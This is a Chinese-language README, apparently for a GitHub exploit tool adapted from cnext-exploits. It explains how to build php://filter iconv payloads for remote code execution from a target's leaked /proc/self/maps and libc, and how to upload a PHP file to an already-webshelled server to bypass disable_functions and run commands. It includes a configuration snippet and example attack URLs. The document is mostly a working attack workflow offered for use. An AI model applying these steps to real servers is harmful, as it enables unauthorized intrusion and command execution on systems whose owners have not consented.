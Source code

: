 # php-filter-iconv
修改自
https://github.com/ambionics/cnext-exploits

## php-filter-iconv.py用法
通过任意文件下载获取目标的/proc/self/maps和libc-2.x.so，在本机和php-filter-iconv.py放在同目录，然后运行脚本即可生成php://filter/的RCE payload，详细参数调整如下代码即可。
```
.......
maps_path = './maps'
cmd = 'echo 123 > 1.txt'
sleep_time = 1
padding = 20

if not os.path.exists(maps_path):
    exit("[-]no maps file")

regions = get_regions(maps_path)
heap, libc_info = get_symbols_and_addresses(regions)

libc_path = libc_info.path
print("[*]download: "+libc_path)

libc_path = './libc-2.23.so'
.......
```

## php-filter-iconv.php用法

直接上传到已经获得webshell的服务器进行bypass disable_functions，然后访问如下链接检测环境

/php-filter-iconv.php?cmd=curl 127.0.0.1:8888&run=0

然后访问如下链接进行命令执行，一切顺利命令会执行成功，服务器会延时几分钟报503

/php-filter-iconv.php?cmd=curl 127.0.0.1:8888&run=1

